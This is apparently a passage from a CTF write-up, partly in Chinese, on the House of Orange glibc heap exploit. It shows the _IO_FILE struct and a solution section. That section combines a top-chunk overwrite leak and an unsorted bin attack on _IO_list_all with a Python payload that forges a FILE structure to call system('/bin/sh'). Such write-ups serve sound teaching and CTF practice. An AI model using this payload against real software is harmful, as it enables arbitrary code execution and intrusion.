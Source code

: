 如上抽象画
而新链入得fp->chain指向原来的第一项
IO_list_file 指向fp
```c
struct _IO_FILE
{
  int _flags;                /* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;        /* Current read pointer */
  char *_IO_read_end;        /* End of get area. */
  char *_IO_read_base;        /* Start of putback+get area. */
  char *_IO_write_base;        /* Start of put area. */
  char *_IO_write_ptr;        /* Current put pointer. */
  char *_IO_write_end;        /* End of put area. */
  char *_IO_buf_base;        /* Start of reserve area. */
  char *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```

# solution
* leak
    * no free，but we can use free in sysmalloc
    * 通过overwrite topchunk
    * malloc big chunk and then topchunk will be put in unsortedbin
    * malloc >512 we can get libc&heap address #large bin
    * leak finished
* cant do force because chunk size<0x10000
* we can use unsorted bin atk to make &main_arena+88 == _IO_list_all
* so main_arena+88 is the first IO_FILE struct but we cant control main_arene
* so we should fill main_arena+88+0x60  with fake_chunk_address
* main_arena+88+0x60 is the 0x60:smallbin[4]
* so we upgrade to over write the unsorted bin like
```python
fake = "/bin/sh\x00"+p64(0x61)+p64(0)+p64(libc.symbols['_IO_list_all']-0x10)+p64(0)+p64(1)
fake =fake.ljust(0xa0,'\x00')+p64(fio+0x8)
fake =fake.ljust(0xc0,'\x00')+p64(1)
fake = fake.ljust(0xd8, '\x00')+p64(fio+0xd8-0x10)+p64(libc.symbols['system'])
```
* then call malloc to call printerr

